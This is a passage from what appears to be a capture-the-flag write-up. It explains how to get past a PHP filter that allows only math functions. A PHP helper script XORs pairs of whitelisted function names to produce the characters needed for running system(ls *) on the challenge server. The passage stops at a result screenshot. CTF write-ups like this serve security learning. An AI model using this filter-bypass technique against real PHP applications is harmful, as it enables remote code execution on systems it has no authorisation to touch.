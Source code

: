 So, we got the source code. It's simply filtering almost all but we can use the math functions that leads to code execution.

So i use this payload from [here](https://www.anquanke.com/post/id/220813#h3-2) to find the right math function to produce strings / codes that we want.

```php
<!DOCTYPE html>
<html>
<body>

<?php
$whitelist = [ 'abs' , 'acos' , 'acosh' , 'asin' , 'asinh' , 'atan2' , 'atan' , 'atanh' , 'base_convert' , 'bindec' , 'ceil' , 'cos ' , 'cosh' , 'decbin' , 'dechex' , 'decoct' , 'deg2rad' , 'exp' , 'expm1' , 'floor' , 'fmod', 'getrandmax' , 'hexdec' , 'hypot', 'is_finite' , 'is_infinite' , 'is_nan' , 'lcg_value' , 'log10' , 'log1p' , 'log' , 'max' , 'min' , 'mt_getrandmax' , 'mt_rand' , 'mt_srand' , ' octdec' , 'pi' , 'pow' , 'rad2deg' , 'rand' , 'round' , 'sin' , 'sinh' , 'sqrt' , 'srand' , 'tan' , 'tanh']; 
$whitelist2 = [ 'acos' , 'acosh' , 'asin' , 'asinh' , 'atan2' , 'atan' , 'atanh' , 'base_convert' , 'bindec' , 'ceil' , 'cos' , 'cosh' , 'decbin' , 'dechex' , 'decoct' , 'deg2rad' , 'exp' , 'expm1' , 'floor' , 'fmod' ,'getrandmax' , 'hexdec' , 'hypot' ,'is_finite' , 'is_infinite' , 'is_nan' , 'lcg_value' , 'log10' , 'log1p' , 'log' , 'max' , 'min' , 'mt_getrandmax' , 'mt_rand' , 'mt_srand' , 'octdec ' , 'pi' , 'pow' , 'rad2deg' , 'rand' , 'round' , 'sin' , 'sinh' , 'sqrt', 'srand' , 'tan' , 'tanh' ,'abs' ];

foreach ($whitelist as $i): foreach ($whitelist2 as $k): echo $k^$i^ "*" ; echo " " . $i. " " . $k; echo "<br/>" ; endforeach ; endforeach ;




?>
```

The result for producing the " *" (including the space). I need it because i want to run `system(ls *)`.

<a href="/assets/images/ctf/bamboo/4.png"><img src="/assets/images/ctf/bamboo/4.png"></a>
